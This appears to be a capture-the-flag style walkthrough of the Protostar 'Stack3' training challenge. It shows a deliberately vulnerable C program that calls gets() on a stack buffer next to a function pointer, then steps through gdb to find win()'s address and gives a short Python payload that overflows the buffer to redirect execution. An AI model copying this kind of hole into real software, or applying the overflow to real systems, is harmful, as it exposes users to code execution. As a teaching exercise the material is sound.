


# [cd ../](../index.md)
# Stack3
> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

> Hints
  - both gdb and objdump is your friend you determining where the win() function lies in memory.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Interesting things
- `fp` is literally `modified` from earlier challenges
- We have a function `win()` and thats the goal to reach

- We have to overflow it and execute `win` with its `memory code`

# Starting it
- Lets fire up `gdb`  
`gdb stack3` and print the adress of `win` (in the gdb shell execute `x win`).
  
- Now disassemble `main`  
Firstly, `set disassembly-flavor intel` and then `disass main`.
- Set a breakpoint to `call eax` cuz this will call our function if we do it right(`break *0x08048475`).

## Fuzzin it
Run it (with `r`) and enter 64 `A`. We got an error.
  
Then try it with more `A`'s like 65. We got to the breakpoint. Now we have to exec `info registers`.
  
- `eax` is overwritten by 1 `A` wohoo!  
If we continue(`c`) the program will call eax (`0x41`) but this isnt a good memory address so we got a segfault.

## Exploitin
- `win`'s adress is `0x8048424` and this is `24840408` and we can translate this hex to `$`.... we cant find 84 here so we have to use hex again.
- Lets write a lil py script to exploit it
  - We need 64 `A` and `\x24\x84\x04\x08`
```py
padding = 64 * 'A'
padding += '\x24\x84\x04\x08' #win's address(0x8048424)
print padding
```
Then we can execute it and pipe into the program.
```
python /tmp/stack3.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
# BOOM GOTCHA (:
